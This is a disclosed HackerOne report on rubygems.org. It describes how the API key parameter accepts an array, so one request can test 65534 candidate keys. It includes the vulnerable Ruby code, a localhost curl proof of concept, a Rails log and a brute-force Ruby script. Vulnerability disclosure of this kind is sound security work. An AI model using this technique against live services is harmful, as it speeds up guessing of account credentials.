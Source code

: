 # 65534 times efficient, Brute-force attack for api_key

## Report Details
- **Report ID**: 449356
- **URL**: https://hackerone.com/reports/449356
- **State**: Closed
- **Severity**: low
- **Submitted**: 2018-11-24T14:40:39.546Z
- **Disclosed**: 2018-12-08T19:38:26.977Z

## Reporter
- **Username**: ooooooo_q
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: rubygems

## Vulnerability Information
I have found that type checking for `api_key` is insufficient in rubygems.org's source code.

https://github.com/rubygems/rubygems.org/blob/master/app/controllers/application_controller.rb#L63

```ruby
def authenticate_with_api_key
  api_key   = request.headers["Authorization"] || params[:api_key]
  @api_user = User.find_by_api_key(api_key)
end
```
Using an array in `params[:api_key]` makes searching for api_key more efficient.


### poc

1. start server in local
2. Access url with multiple api_key

```
$ curl --globoff 'http://localhost:3000/api/v1/gems?api_key[]=key1&api_key[]=key2'
> Access Denied. Please sign up for an account at https://rubygems.org
```

##### rails log

```log
Started GET "/api/v1/gems?api_key[]=key1&api_key[]=key2" for ::1 at 2018-11-24 23:03:30 +0900
Processing by Api::V1::RubygemsController#index as */*
  Parameters: {"api_key"=>["key1", "key2"]}
  User Load (0.5ms)  SELECT  "users".* FROM "users" WHERE "users"."api_key" IN ($1, $2) LIMIT $3  [["api_key", "key1"], ["api_key", "key2"], ["LIMIT", 1]]
  ↳ app/controllers/application_controller.rb:65
  Rendering text template
  Rendered text template (0.0ms)
Filter chain halted as :verify_authenticated_user rendered or redirected
Completed 401 Unauthorized in 2ms (Views: 0.3ms | ActiveRecord: 0.5ms | Elasticsearch: 0.0ms)
```

## Impact

As a result of trying how much it can be sent using POST, 65534 api_key's could be sent.
A postgres error will occur if you send more values.

Here is the script used for confirmation.

```ruby
require 'net/http'
require 'securerandom'
require 'json'

keys = 65534.times.map{SecureRandom.hex(32)}
# keys = 65535.times.map{SecureRandom.hex(32)} # error

uri = URI.parse("http://localhost:3000/api/v1/web_hooks/fire.json?url=http://example.com/")
http = Net::HTTP.new(uri.host, uri.port)
req = Net::HTTP::Post.new(uri.path)
req["Content-Type"] = "application/json"
req.body = {api_key: keys}.to_json

res = http.request(req)
```

Attacks against api_key are 65534 times more efficient, but since the string generated by `SecureRandom.hex (32)` has sufficient length, the impact seems to be minimal.

## Attachments
No attachments

